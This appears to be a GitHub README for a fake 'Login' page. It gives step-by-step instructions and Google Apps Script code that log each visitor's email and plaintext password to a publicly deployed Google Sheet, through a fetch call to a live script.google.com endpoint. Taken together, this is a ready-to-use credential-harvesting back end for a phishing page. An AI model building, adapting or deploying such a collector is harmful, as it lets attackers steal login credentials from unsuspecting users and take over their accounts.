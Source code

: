# Login
collecting data of the user to an google sheet (you can change it to anything else)


at line 26, edit the link

1. create a google sheet (name something like "Login Data Log")
2. in extensions > appscript
3. (javascript) replace all with:

<pre>
 function doPost(e) {
  var sheet = SpreadsheetApp.getActiveSpreadsheet().getActiveSheet();
  var email = e.parameter.email;
  var password = e.parameter.password;
  var time = new Date();

  sheet.appendRow([email, password, time]);
  return ContentService.createTextOutput("OK");
} 
</pre>

4. deploy [select "anyone" !important!]
5. copy link
6. replace it on line 26
    fetch("https://script.google.com/macros/s/AKfycby69FXNkbhLcd5sKXqb2MhQIDDH6GBLIhhCNbdYREEFDBRbHg7lQeMLDHNz1d20LR-b/exec", {

replace this part only
"https://script.google.com/macros/s/AKfycby69FXNkbhLcd5sKXqb2MhQIDDH6GBLIhhCNbdYREEFDBRbHg7lQeMLDHNz1d20LR-b/exec"
